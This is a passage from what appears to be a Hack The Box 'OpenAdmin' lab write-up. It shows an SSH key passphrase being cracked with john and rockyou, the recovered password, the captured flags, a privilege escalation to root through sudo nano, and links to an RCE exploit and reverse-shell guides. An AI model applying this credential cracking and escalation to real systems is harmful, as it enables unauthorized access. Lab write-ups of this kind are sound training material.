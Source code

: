 ```bash
$ /usr/share/john/ssh2john.py joanna_rsa > joanna_rsa.john
$ john joanna_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_rsa)
1g 0:00:00:01 DONE (2021-01-01 22:27) 0.5586g/s 8012Kp/s 8012Kc/s 8012KC/s  0125457423 ..*7¡Vamos!
Session completed
```

`bloodninjas` is `joanna_rsa`'s password. We can now log in as **joanna**.

![ssh joanna](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/openadmin/bloodninjas.png)

- **joanna**'s flag:

```bash
joanna@openadmin:~$ cat user.txt 
c9b2cf07d40807e62af62660f0c81b5f
```

## Root

Now this is pretty straightforward since we saw earlier that `joanna` can run `nano` with `sudo` _(thanks to linpeas)_.

![sudo -l](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/openadmin/sudo-l.png)

We just have to check [GTFOBins - nano](https://gtfobins.github.io/gtfobins/nano/) to find a way to privesc.

![GTFOBins - sudo nano](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/openadmin/gtfo-nano.png)

And we got **root**'s flag (`2f907ed450b361b2c2bf4e8795d5b561`):

![root flag](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/openadmin/root-flag.png)
___

## Useful links

- [ona-rce](https://github.com/amriunix/ona-rce)
- [MySQl commands](http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm)
- [Hashes length](https://www.mobilefish.com/services/hash_generator/hash_generator.php)
- [Upgrading to a fully interactive reverse shell](https://www.boiteaklou.fr/Fully-interactive-reverse-shell.html)
- [SSH Port Forwarding Example](https://www.ssh.com/ssh/tunneling/example)
- [GTFOBins - nano](https://gtfobins.github.io/gtfobins/nano/)
